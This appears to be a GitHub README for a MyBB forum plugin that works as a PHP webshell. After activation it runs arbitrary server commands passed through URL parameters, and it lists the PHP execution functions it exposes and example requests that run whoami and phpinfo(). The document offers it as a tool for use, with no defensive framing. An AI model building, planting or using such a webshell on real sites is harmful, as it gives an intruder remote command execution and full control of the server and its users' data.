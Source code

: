 # MyBB-Shell-Plugin
MyBB Webshell Plugin

A plugin coded to be compatible with any version of MyBB *


A simple PHP webshell:
  After Activation:
    http://127.0.0.1/mybb/?cmd=FUNCTION&command=COMMAND
    
  Examples:
  
    http://127.0.0.1/mybb/?cmd=shell_exec&command=whoami
    http://127.0.0.1/mybb/?cmd=eval&command=phpinfo();
    
Current functions:
shell_exec
passthru
exec
system
popen
proc_open
eval
assert
pcntl_exec
``
  
